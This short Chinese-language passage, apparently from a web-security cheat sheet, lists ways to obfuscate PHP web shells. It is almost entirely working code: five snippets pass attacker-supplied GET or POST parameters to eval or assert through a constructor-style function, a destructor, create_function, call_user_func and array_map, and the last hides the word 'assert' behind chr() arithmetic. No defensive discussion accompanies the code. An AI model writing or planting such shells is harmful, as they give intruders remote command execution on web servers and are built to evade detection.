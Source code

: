 ##### 利用构造函数进行混淆

```php
<?php 
function go() 
{ 
return "\x00".$_GET['cmd']."\x00"; 
} 
eval(go()); 
?>
```

##### 利用析构函数进行混淆

```php
<?php
class Shell
{
    public $arg = '';

    function __destruct()
    {
        eval("$this->arg");
    }
}

$run = new Shell;
$run->arg = $_GET['cmd'];
?>
```

##### 使用回调函数进行混淆

###### 使用 create_function 函数进行混淆

```php
<?php 
$fun = create_function('',$_POST['shell']);
$fun();
?>
```

###### 使用 call_user_func 函数进行混淆

```php
<?php
@call_user_func(assert,$_POST['shell']);
?>
```

##### 使用 array_map 函数进行混淆

```php
<?php
function fun() {
    $f =  chr(98-1).chr(116-1).chr(116-1).chr(103-2).chr(112+2).chr(110+6);
    return ''.$f;
}
$user = fun();    //拿到assert高危函数
$pass =array($_POST['cmd']);
array_map($user,$user = $pass );
?>
```
